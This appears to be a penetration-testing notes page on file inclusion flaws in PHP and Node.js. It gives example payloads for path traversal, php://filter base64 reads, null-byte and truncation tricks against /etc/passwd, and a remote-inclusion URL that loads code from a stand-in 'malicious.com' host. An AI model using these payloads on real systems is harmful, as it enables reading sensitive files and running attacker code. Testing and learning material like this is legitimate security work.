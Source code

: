 # File Inclusion

{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion" %}

File Inclusion allows an attacker to include a file, usually exploiting a "dynamic file inclusion" mechanisms implemented in the target application. Most commonly found in **PHP** applications.&#x20;

For example, think of file inclusion when you see:

* page.php?file=some-file-here
* page.php?language=eng

## PHP Local File Inclusion (LFI)

LFI happens when an attacker can include files on the vulnerable server (as opposed to being able to include files from remote servers). [Path Traversal](path-traversal.md) techniques can often be useful when exploiting local file inclusion vulnerabilities.

For example, let's say you have the page `page.php?language=en` and that page includes the `page.en.php` file. If `language=fr`, then it would include `page.fr.php`.

In that case, you can include the `malicious.php` file in the same directory with `page.php?language=en/../malicious`. If you had for example managed to upload a `malicious.php` file using [unrestricted file upload](page-3.md), then that will result in an RCE vulnerability.

### Log Poisoning

If you are unable to upload PHP files to the website, you might be able to poison log files with PHP code, and then include those logs.

### Data Exfiltration

LFI can be used to read files and get information from the vulnerable system.

#### Reading Files in Base64 Using php://

If the include statement doesn't include a prefix, and only includes your input, then you can use the `php://` filter to convert files to base64 and therefore read them without issues.

[http://127.0.0.1/fileinclude.php?lang=php://filter/convert.base64-encode/resource=hello.php\
](http://127.0.0.1/fileinclude.php?lang=php://filter/convert.base64-encode/resource=hello.php)

#### Reading /proc

You can try to glean information by reading `/proc`. For example:

* `/proc/self/fd` files
* `/proc/sched_debug`

### Bypass Tricks

For tricks to bypass file extensions and filters, you can take a look at the [payloadsallthethings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion#wrapper-data) repository, but note that practically all the methods there have certain limitations and caveats that aren't mentioned.&#x20;

#### **NULL Byte Trick**

Putting a null-byte in between a string _might_ terminate the string in PHP (NULL is the string terminator in C). For example, `include("shell.php\0.img")` will try to include `shell.php`.&#x20;

In URL encoding, the NULL byte is `%00`.&#x20;

**WARNING:** Doesn't work since PHP 5.3.4 (though `preg_` functions should still be vulnerable). If you try to do it after PHP 5.3.4, then it simply won't open anything with a null byte in it. Error message:&#x20;

```
Failed opening 'http://www.example.com' for inclusion, when the url is ?lang=http://www.example.com%00.whatever
```

#### **Truncation Trick**

On most PHP installations a filename longer than 4096 bytes will be cut off so any excess chars will be thrown away.

That truncation, combined with the fact that `/etc/passwd` can **sometimes** be the same as `/etc/passwd/`in PHP, means that you might be able to throw away excess characters (such as a file extension you don't want)

```
http://example.com/index.php?page=../../../etc/passwd............[ADD MORE]
http://example.com/index.php?page=../../../etc/passwd\.\.\.\.\.\.[ADD MORE]
http://example.com/index.php?page=../../../etc/passwd/./././././.[ADD MORE] 
http://example.com/index.php?page=../../../[ADD MORE]../../../../etc/passwd
```

**WARNING:** There were multiple issues with this when testing locally on Apache2:

1. Including `/etc/passwd/` didn't work, even when `/etc/passwd` did.
2. To try to work around issue #1, I tried to put the `/etc/passwd.ext` at the end. However, I was not able to get it to work with the `.ext` at the end (it worked without it). Just to make sure, I tried to brute force cutoff points up to 99999 character (unsuccessfully).

## Node.js LFI

If a `require()` is at the top of a file, then it’s loaded into memory at the start of the application’s life. However, if it’s in the middle of a function, then it’s loaded every time that function is run.&#x20;

So if:&#x20;

1. You have arbitrary file upload and you can upload a javascript file
2. You control which file is loaded&#x20;

Then you can cause the application to load your file and get RCE. Admittedly, this is an **extremely unusual circumstance**.

## PHP Remote File Inclusion

Is when you can include a remote file, for example a file you're hosting. Example payload:

```
page.php?include=http://malicious.com/malicious.php?
```

Tip: The `?` at the end is useful, since if the application adds a suffix to the request, then that will simply be interpreted as a GET parameter, and your malicious file will be successfully included regardless.

